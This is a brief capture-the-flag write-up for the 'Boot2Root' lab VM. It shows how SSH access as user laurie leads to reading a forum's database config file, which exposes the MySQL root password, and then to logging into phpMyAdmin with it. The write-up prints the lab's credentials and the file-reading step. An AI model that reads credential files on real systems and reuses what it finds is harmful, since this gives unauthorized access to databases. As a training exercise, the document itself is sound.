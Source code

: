 # Boot2Root

## Be root on Mysql database (method 2)

### Connect to the machine with ssh laurie from the writeup1
```
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

From here, let's take a look around in the machine.
a few moment later...
```
laurie@BornToSecHackMe:~$ cat /var/www/forum/config/db_settings.php
<?php
$db_settings['host'] = 'localhost';
$db_settings['user'] = 'root';
$db_settings['password'] = 'Fg-\'kKXBj87E:aJ$';
$db_settings['database'] = 'forum_db';
$db_settings['settings_table'] = 'mlf2_settings';
$db_settings['forum_table'] = 'mlf2_entries';
$db_settings['category_table'] = 'mlf2_categories';
$db_settings['userdata_table'] = 'mlf2_userdata';
$db_settings['smilies_table'] = 'mlf2_smilies';
$db_settings['pages_table'] = 'mlf2_pages';
$db_settings['banlists_table'] = 'mlf2_banlists';
$db_settings['useronline_table'] = 'mlf2_useronline';
$db_settings['login_control_table'] = 'mlf2_logincontrol';
$db_settings['entry_cache_table'] = 'mlf2_entries_cache';
$db_settings['userdata_cache_table'] = 'mlf2_userdata_cache';
?>
```

Ho nice ! Here is the DB Root password !
Go to /phpmyadmin and connect with thoses credentials !

###WE ## ARE # ROOT DB !!